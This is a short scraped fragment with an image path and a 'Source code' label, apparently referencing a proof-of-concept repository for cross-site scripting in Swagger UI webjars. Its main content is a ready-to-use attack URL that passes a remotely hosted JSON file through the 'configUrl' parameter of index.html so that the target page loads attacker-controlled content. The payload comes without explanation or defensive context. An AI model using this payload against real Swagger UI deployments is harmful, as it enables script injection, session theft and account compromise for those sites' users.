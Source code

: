 https://raw.githubusercontent.com/0tax00/poc-xss-swagger-webjars/refs/heads/main/xss.json
/index.html?configUrl=https://raw.githubusercontent.com/0tax00/poc-xss-swagger-webjars/refs/heads/main/xss.json
